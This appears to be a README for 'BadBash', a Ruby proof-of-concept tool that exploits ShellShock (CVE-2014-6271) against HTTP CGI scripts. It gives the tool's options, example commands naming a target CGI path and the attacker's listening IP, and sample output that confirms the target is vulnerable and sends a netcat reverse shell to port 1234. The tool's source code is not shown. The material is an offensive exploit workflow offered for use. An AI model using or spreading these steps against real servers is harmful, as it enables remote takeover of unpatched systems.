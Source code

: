 BadBash
=======

CVE-2014-6271 (ShellShock) RCE PoC tool 

=======
BadBash is a CVE-2014-6271 RCE exploit tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.

Developer : Andy Yang 
Version : 0.1.0 
License : GPLv3

Orginal github project : https://github.com/RainMak3r/Rainstorm

================================================================================================
RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h

BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234


EXAMPLE USAGE:

     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........

[Info]     This may take up to 10 seconds........

[Info]     Target is vulnerable!!!

[Info]     Please use NC to listen on port 1234 for reverse shell..........

[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........



